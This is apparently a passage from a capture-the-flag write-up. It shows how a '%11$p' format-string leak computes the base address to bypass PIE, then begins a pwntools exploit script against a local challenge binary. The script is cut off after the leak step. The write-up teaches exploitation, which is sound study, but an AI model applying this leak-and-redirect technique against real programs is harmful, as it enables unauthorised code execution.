 Looking at the stack before the printf call we see that we have to use the `%11$p` offset (annoted on the screenshot) to leak the correct address.

![stack before printf](./img/stack_before_printf.png)

![leaked addr](./img/leaked_addr.png)

Perfect now we can calculate the base address by calculating `0x5555555560c7 - 0x001020c7`, then we can add any other "static" address onto it to redirect execution, effectively bypassing `PIE`. 

### Automating the exploit with pwntools

Now we want to create a `pwntools` script that will automate this process for us. It will first leak the address, then go back to the main menu, go to the hidden menu, enter the password, then enter the calculated address of the `flag` function at the correct offset to redirect execution to print the flag.

```python
from pwn import *

context(os='linux', arch='amd64')

filename = "./chal1"
offset = 66

context.binary = elf = ELF(filename)

# p = remote('pwn.challenges.hfctf.ca', 1234)
p = process(filename)

padding = b"A" * offset

def extract_address(input_bytes):
    return input_bytes.decode('utf-8').split(': ')[1].strip()

p.sendline(b'3')
p.sendlineafter(b'Submit the game ID:\n', b'1')
p.sendlineafter(b'Submit your vote (UP or DOWN):', b'%11$p')
```